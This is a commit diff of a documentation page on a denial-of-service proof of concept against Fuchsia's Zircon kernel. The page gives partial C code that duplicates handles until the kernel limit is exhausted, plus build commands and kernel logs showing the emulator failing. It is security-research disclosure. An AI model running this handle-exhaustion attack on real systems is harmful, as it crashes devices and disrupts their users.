

Before and after one commit to SIGFuchsia/doc, an MkDocs documentation site: the page built from docs/Dos_on_Fuchsia.md, in a window 1280 px wide and 1400 px high, scrolled down 1464 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2784 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update Dos_on_Fuchsia.md

````diff
--- a/docs/Dos_on_Fuchsia.md
+++ b/docs/Dos_on_Fuchsia.md
@@ -1,22 +1,21 @@
 # Dos on Fuchsia
 
-May only take you 1 min.
+May take you only 1 min.
 
 ## Set-up
 
 
-Replace "/examples/hello_world/cpp/helloworld.cc" with the following code.
+Replace "/examples/fortune/fortune.c" with the following code.
 
 // Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle.
 
 // Here I try to duplicate 512\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().
 
-    #include  <zircon/syscalls.h>
-	#include  <iostream>
+	#include <stdio.h>
+	#include  <zircon/syscalls.h>
 	#define  max_num  512*1024
 	zx_handle_t  res_handle[max_num];
 	int  main() {
-		std::cout  <<  "Hello, Worldddddd!\n";
 		zx_handle_t  handle1;
 		zx_status_t  sys_ret;
 		sys_ret = zx_vmo_create(10,0,&handle1);
@@ -75,7 +74,7 @@
 
 Terminal 1
 
-    $ fx set workstation.qemu-x64 --cache --with //example/hello_world
+    $ fx set workstation.qemu-x64 --cache --with //example/fortune
     $ fx build
     $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh
 
@@ -87,15 +86,33 @@
 
     $ fx log
 
-Terminal 4
+Terminal 1
+```
+$ fortune
+```
 
 
-   ```
-$ ffx component run fuchsia-pkg://fuchsia.com/hello-world#meta/hello-world-cpp.cm
+## Result
+Warnning in Terminal 3, then the FEMU crash.
+
+Terminal 3
 ```
-
-## Result
-Warnning in Terminal 2, on my machine the FEMU will crash.
+[00016.023134][57943][57945][klog] WARNING: WARNING: High handle count: 229377 / 229376 handles
+[00016.029523][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029527][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029532][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029535][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029536][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029538][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+[00016.029575][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
+```
+You can see that now the number of exsiting handles is 256\*1024 = 262144, or the max number of handles.
 
 Terminal 1
 ```
@@ -113,18 +130,3 @@
 kex_exchange_identification: Connection closed by remote host
 
 ```
-
-If you set the 'max_num' value to a small value like 10 in hello_world.cc, the FEMU can still work with the hello_world component. It means that it's feasible to  Dos attack the zircon kernel by loading malicious components.
-
-```
-PID      TID        TIME%  CPU STATE NAME
-59937    59939      99.99    3   run hello-world-cpp.cm:initial-thread
-26905    26907       0.46    0 block ptysvc.cm:initial-thread
-36894    37138       0.45    0 block netstack.cmx:pthread_t:0x18720985b18
- 6658     7948       0.43    2 block driver_host:composite-device:virtio-net-irq-worker
-54060    54062       0.38    2 block /pkg/bin/sshd:initial-thread
-77419    77421       0.36    0   run top:initial-thread
-36894    37148       0.35    2 block netstack.cmx:pthread_t:0x90d20f1b18
-36894    37161       0.27    2 block netstack.cmx:pthread_t:0x1e2b9737b18
-
-```
````
